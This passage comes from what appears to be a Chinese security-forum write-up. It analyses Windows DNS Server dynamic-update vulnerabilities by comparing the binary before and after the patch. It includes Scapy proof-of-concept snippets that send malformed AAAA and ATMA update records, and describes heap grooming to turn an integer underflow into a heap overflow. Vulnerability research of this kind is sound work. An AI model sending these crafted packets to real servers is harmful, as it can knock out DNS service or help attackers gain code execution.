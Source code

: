 新的 AaaaFileWrite 函数中也会加入对待读缓冲区和待写缓冲区的判断。

 

![](https://bbs.pediy.com/upload/attach/202104/701197_E4AR7BPU42PEAQB.png)

 

构造如下 POC 进行验证，崩溃场景如下图：

```
query = DNSQR(qname='mal', qtype='SOA')
RRAaaa = DNSRR(rrname=str(RandString(8))+'.mal',type='AAAA',rdlen=1,rdata='fe80::20c:29ff:fe5e:7b11')
packet = IP(dst=ip)/UDP()/DNS(id=random.randint(0,65535),opcode=5,qd=query,ns=RRAaaa)

```

![](https://bbs.pediy.com/upload/attach/202104/701197_Q6XMXVDHNAUAKBB.png)

*   **ATMA 记录问题**

下面再来看 AtmaFileWrite 函数，CopyWireRead 函数中给的限制是：它的 Data Length 长度要大于等于 2。对比补丁前后，对 Data Length 长度判断吸引了我的注意（右边），如果是 0，就走结束流程。那么再看不补丁前的函数，v6 为 Data Length - 1 的无符号数，当 Data Length 为 0 时，v6 为 0xFFFFFFFF , 会产生整数溢出。而且，当 Data 数据的第一个字节为 1 时，会以 v6 做为控制长度向缓冲区复制数据（堆溢出）。

 

![](https://bbs.pediy.com/upload/attach/202104/701197_YJFMABNPT462E4D.png)

 

构造 ATMA 更新请求如下，为了使 Data Length 为 0 时，满足漏洞触发条件，需要在发送恶意请求时发送一些 “铺垫” 数据，即保证 Data 数据的第一个字节（a1 偏移 0x38 处）为 1，且分配的大小一致。那么当触发漏洞的请求到来时，申请的堆可能就来自之前的数据包。例：rdl 先 1（多个） 后 0（分配到 0x50 大小的自定义堆上），崩溃现场如下图：

```
query = DNSQR(qname='mal', qtype='SOA')
RRATMA = DNSRR(rr,type='ATMA',rdlen=rdl,rdata='\x01'*0xff)
packet = IP(dst=ip)/UDP()/DNS(id=random.randint(0,65535),opcode=5,qd=query,ns=RRATMA)

```

![](https://bbs.pediy.com/upload/attach/202104/701197_8C5GNQBRHCDK373.png)

*   **WKS 记录问题**

WksFileWrite 函数中会打印 IP 地址，还有协议名称，这需要保证数据必须大于等于 5。如果发送的数据不到 5，就会读取到后面的数据，这样会存在一定程度的信息泄露（然而我觉得没什么用）。

 

![](https://bbs.pediy.com/upload/attach/202104/701197_ZCU2AX4DBYG2YH9.png)

### 总结

微软 3 月补丁日公开了 Windows DNS Server 中存在的多个远程代码执行漏洞和拒绝服务漏洞，这些漏洞都存在于 Windows DNS Server 进行动态区域更新的过程中。攻击者可通过向目标主机发送特制请求来利用这些漏洞，成功利用这些漏洞可在目标主机上以 SYSTEM 权限执行任意代码或导致 DNS 服务拒绝服务。通过对 McAfee 博客中的细节描述进行分析以及补丁比对，笔者构造 POC 复现了其中的 5 个（不包括 WKS）。如有不足之处，欢迎批评指正，期待技术交流。

### 参考链接
